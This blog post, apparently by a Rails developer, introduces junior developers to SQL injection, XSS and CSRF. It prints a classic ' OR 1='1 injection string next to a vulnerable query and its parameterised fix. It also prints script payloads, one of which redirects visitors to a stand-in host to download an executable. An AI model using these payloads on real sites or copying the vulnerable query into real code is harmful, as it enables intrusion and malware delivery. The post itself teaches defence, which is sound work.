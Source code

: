 ```yaml
---
layout: post
title:      "Basic Security "
date:       2019-10-06 20:20:17 -0400
permalink:  basic_security
---
```


With all the hacks against big companies and sensitive data being compromised even if your, not a web-security expert it should be on your mind.
 
 There are 3 major ones that all Junior developers should be aware of as they start to build and write code. These are some of the basic definitions from Wikpedia.

1. SQL Injection - “An attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data “ 
2. Cross-Site Scripting (XSS)-enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls
3. Cross-site request forgery is a type of malicious exploit of a website where unauthorized commands are transmitted from a user that the web application trusts.

## SQL Injection
Why is it so scary ,first even a non-sesoned hacker with very basic coding skills can gain access to some of the info in a DB. Second, any form that is submitting data is bypassing all firewall and security measures and so we can update the info in the DB. What is stopping the user from injecting some SQL query to retrieve data? I will not get into specifics of what can be done as that would be liking giving a loaded gun to a child. I will just mention some measures that are taken to prevent such hacks.

In rails when we use active record as gateway to our DB . But whaf if my name is ```  ' OR 1='1``` 

```User.where("name = '#{params[:name]'") # SQL Injection!```

Because now we are saying  give me a user whose name is  blank  or if 1=1 (which is true) so then return the whole table (OOHH )


```User.where(["name = ?", "#{params[:name]}"])```

We don't pass in a string directly but use “?“ as template or placeholder for the parameters.In this example we are clearly stating how to make the query! This is just one example if we are even just aware of the vulnerabilities,that will help us in finding the correct solution.







## Cross-Site Scripting (XSS)
I wrote about this [here](http://simchagreenbaum.com/securing_a_rails_app) how Rails pervents  any user input that will be diplayed and wont execute any HTML 
```<script>alert('x');</script> ```

If you are using JS you need to make sure that any input will escape the HTML and make sure it doesn't have the ability to execute any scripts.Why are scripts so bad ?  We could have a legitmate website that will run a script on the client  side. What if  we entered this into an input form?

```<script>document.location="http://www.badwebsite.com/download.exe";</script>```

On load, this will send the user to a different URL which will download the file. This is a huge topic but the point is to understand that any input form or search bar on a website can be vulnerable.  



## Cross-site request forgery
**Stay tuned-coming  next week**



All the best,

Simcha Greenbaum



References

1. [SQl Injection](https://www.beyondsecurity.com/about-sql-injection.html)
2. [CSRF](https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef)
3. [Web-Security](http://simchagreenbaum.com/Web-Security) 




